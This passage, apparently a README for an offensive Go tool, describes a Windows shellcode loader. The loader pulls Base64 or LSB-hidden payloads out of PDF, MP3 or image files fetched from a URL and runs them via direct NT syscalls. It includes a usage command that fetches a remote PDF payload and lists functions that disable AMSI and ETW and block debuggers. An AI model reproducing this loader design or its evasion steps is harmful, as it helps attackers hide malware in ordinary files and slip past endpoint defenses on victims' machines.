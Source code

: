 #### Custom URLs
Provide any HTTP/HTTPS URL as a command line argument:

```bash
./cmd.exe -pdf https://your-server.com/document.pdf
```

If no URL is provided, the tool uses a configured default URL.

## Technical Implementation

### Memory Management
The tool implements sophisticated memory management to handle compatibility issues between Go's garbage collector and Windows NT syscalls. It includes:

- Automatic fallback from Go-allocated memory to Windows-allocated memory
- Proper cleanup of allocated memory regions
- Thread-safe execution with OS thread locking

### Steganography Methods

#### PDF Metadata
Shellcode is encoded in Base64 and stored in PDF metadata properties with the key "STEGO". The payload includes a magic header and size information for reliable extraction.

#### MP3 ID3 Tags
Data is embedded in ID3v2 comment frames with the description "STEGO" and encoded in Base64 format.

#### Image LSB
Uses least significant bit steganography across RGB channels with a magic header (0xDEADBEEFCAFEBABE) and 32-bit little-endian size field.

### Shellcode Execution
The tool uses [go-direct-syscall](https://github.com/carved4/go-direct-syscall) library for direct NT syscalls without Windows API imports:
- `NtAllocateVirtualMemory` for memory allocation
- `NtWriteVirtualMemory` for shellcode copying  
- `NtProtectVirtualMemory` for permission changes
- `NtCreateThreadEx` for thread creation
- `NtWaitForSingleObject` for synchronization

## Security Features

### Windows API Patches
The tool leverages security bypass patches from the [go-direct-syscall](https://github.com/carved4/go-direct-syscall) library:

```go
// Available patch functions from my winapi :3 
PatchAMSI()                    // Disable AMSI scanning
PatchETW()                     // Disable event tracing  
PatchDbgUiRemoteBreakin()      // Block debugger attachment
PatchNtTraceEvent()            // Disable trace logging
PatchNtSystemDebugControl()    // Prevent debug operations
ApplyAllPatches()              // Apply all stable patches
ApplyCriticalPatches()         // Apply AMSI and ETW only
```
